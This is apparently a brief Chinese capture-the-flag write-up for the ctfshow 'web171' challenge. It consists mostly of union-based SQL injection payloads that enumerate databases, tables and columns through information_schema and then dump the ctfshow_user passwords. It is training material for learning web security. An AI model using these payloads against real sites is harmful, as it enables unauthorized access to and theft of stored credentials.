







# web171

判断列数,列数为3

判断回显位



爆库
```
1' union select database(),2,schema_name from information_schema.schemata--+
```


爆表
```
1' union select database(),2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```

爆字段
```
1' union select database(),2,column_name from information_schema.columns where table_name='ctfshow_user'--+
```

爆字段
```
1' union select database(),2,password from ctfshow_user--+
```
